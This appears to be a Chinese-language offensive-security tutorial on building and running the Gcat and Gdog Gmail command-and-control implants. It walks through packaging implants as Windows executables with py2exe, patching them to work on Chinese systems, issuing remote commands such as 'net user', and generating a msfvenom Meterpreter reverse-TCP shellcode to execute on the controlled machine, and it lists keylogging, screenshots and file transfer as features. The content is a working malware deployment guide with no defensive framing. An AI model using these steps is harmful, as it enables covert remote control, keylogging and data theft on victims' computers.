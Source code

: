   #### Gcat
	https://myaccount.google.com/lesssecureapps
	启用设置
![image](img/281.png)

	Gmail启用imap
![image](img/282.png)

	将以下脚本转换为exe
	# setup.py
	from distutils.core import setup
	import py2exe
 
	setup(console=['implant.py'])
	https://github.com/byt3bl33d3r/gcat
	把gcat项目中的implant.py跟以上脚本放在同一目录，修改implant.py中的账户信息
![image](img/283.png)

	>python 1.py py2exe打包
	dist目录下生成implant.exe受控机执行
	同时也要修改项目中gcat.py中的账户信息
![image](img/284.png)

	在受控机执行implant.exe，如果报错修改email模块以下三行
	from email.mime.multipart import MIMEMultipart
	from email.mime.base import MIMEBase
	from email.mime.text import MIMEText
![image](img/285.png)

	执行后，邮箱会收到信息
![image](img/286.png)

	使用gcat.py也可以得到当前会话
	>python gcat.py -list
![image](img/287.png)

	现在可对其进行控制
	>python gcat.py -id [id] -cmd 'net user'
![image](img/288.png)

	生成jobid，指定jobid可查看回显
![image](img/289.png)

	邮箱中也存在
![image](img/290.png)

	当受控机为中文系统时，回显会报错，修改代码
![image](img/291.png)

	其他模块有回显的直接修改后重新py2exe打包即可。
	支持的功能:cmd,upload/download,执行shellcode,键盘记录,截屏等
  #### Gdog
	https://github.com/maldevel/gdog
	功能更多:
	加密传输、地理位置、执行命令、上传下载、shellcode、截图、键盘记录、关闭重启、注销用户、从web下载、访问网站等
	配置流程基本一样，需要打包exe，但是要安装一些模块PyCrypto、WMI、Enum34、Netifaces
	# setup.py
	from distutils.core import setup
	import py2exe
	 
	setup(console=['client.py'])
	client.py在回显处也要添加decode gbk
	执行client.exe报超出索引错误时
	在client.py中搜索字符串for iface in netifaces.interfaces():
	在它下面一行修改为
	if netifaces.ifaddresses(iface)[netifaces.AF_LINK][0]['addr'] == self.MAC and netifaces.AF_INET in netifaces.ifaddresses(iface):
	打包好后执行
![image](img/292.png)
![image](img/293.png)
![image](img/294.png)
![image](img/295.png)

	提取jobid回显出错的话，添加
	reload(sys)
	sys.setdefaultencoding("utf-8")
	执行shellcode
	>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform Windows EXITFUNC=thread LPORT=4444 LHOST=x.x.x.x -f python
	去除引号加减号，只保留shellcode粘贴到文件shell.txt
	>python gdog.py -id {id} -exec-shellcode /tmp/shell.txt